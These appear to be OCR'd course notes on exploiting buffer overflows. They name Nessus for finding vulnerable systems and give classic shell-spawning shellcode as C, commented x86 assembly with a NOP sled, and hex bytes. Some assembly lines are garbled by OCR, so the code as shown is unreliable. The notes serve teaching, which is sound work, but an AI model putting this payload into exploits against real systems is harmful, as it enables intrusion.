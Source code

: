 ### Exploiting buffer overflows

- Attacks can use automated software to help identify operating systems and applications that are vulnerable to buffer overflows
- [Nessus](http://www.tenable.com/products/nessus-vulnerability-scanner) is one such tool
	- Can be extended through the use of plugins

### Example shellcode to spawn shell

- Desired shellcode code in C

``` c
int main(int argc, char *argv[]) {
	char *sh;
	char *args[2];
	sh = */bin/sh*;
	args[0] = sh;
	args[1] = NULL;
	execve(sh, args, NULL);
}
```

- Equivalent position-independent x86 assembly code

``` assembly
		nop
		nop							// end of nop sled
		jmp		find				// jump to end of code
cont:	pop		%esi				// pop address of sh off stack into %esi
		xor		%eax,%eax			// zero contents of EAX
		mov		%al,0x7(%esi)		// copy zero byte to end of string sh (%esi)
		lea		(%esi),%ebx			// load address of sh (%esi) into %ebx
		mov		%ebx,0x8,(%esi)		// save address of sh in args[0] (%esi+8)
		mov		%eax,0xc,(%esi)		// copy zero to args[1] ($esi+c)
		mov		$0xb,%al			// copy execve syscall number (11) to AL
		mov		%esi,%ebx			// copy address of sh (%esi) to %ebx
		lea		0x8(%esi),%ecx		// copy address of args (%esi+8) to %ecx
		lea		0xc(%esi),%edx		// copy address of args[1] (%esi+c) to %edx
		int		$0x80				// software interrup to execute syscall
find:	call	cont				// call cont which saves next address on stack
sh:		.string	*/bin/sh	*		// string constant
args:	.long 0						// space used for args array
		.long 0						// args[1] and also NULL for env array
```

- Hex values for compiled x86 machine code

```
90 90 eb 1a 5e 31 c0 88 46 07 8d 1e 89 5e 08 89
46 0c b0 0b 89 f3 8d 4e 08 8d 56 0c cd 80 e8 e1
ff ff ff 2f 62 69 6e 2f 73 68 20 20 20 20 20 20
```

### Other common programming flaws
